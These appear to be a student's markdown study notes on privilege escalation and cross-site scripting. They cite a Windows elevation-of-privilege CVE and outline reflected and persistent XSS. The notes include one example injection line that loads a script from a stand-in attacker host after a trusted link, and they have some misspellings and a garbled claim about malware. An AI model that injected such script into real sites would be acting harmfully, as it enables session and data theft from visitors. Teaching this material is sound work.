 # Privilege escalation

- The attacker gains full access to a system

   - Usally exploits a vulnerability  

   - Malware can catch any privilage escalation 



- **Example** - CVE-2020-1530 Windows Remote Access Elevation of Privelage vulnerability august 20, 2020



# Cross-site scripting

- A malicious script hosted on the attacker's site or coded in a link injection onto a trusted site designed to compromise clients browsing the trusted site.

  - Also known as XSS

  - Orginally associated with a browser security flaws; Information from one site to another could be shared



- Process of an XSS attack

1. The attacker indentifies an input validation vulnerability in a trusted site

2. The attacker crafts a URL to perform a code injection against the trusted site. 

3. When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker



- **Example** - Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.



- **Non-persistant XSS attack**

    - seach box is a common source 

    - Sent through link that activates payload 

    - Hacker can get session id and more information



- **Persistent XSS attack** 



    - Includes a malicious payload 

    - The malicious message has the virus and everyone gets it when the message is read 

    - There isnt someone targeted; different from non-persistant where the person can be targeted 

    - Can spread easy through social media

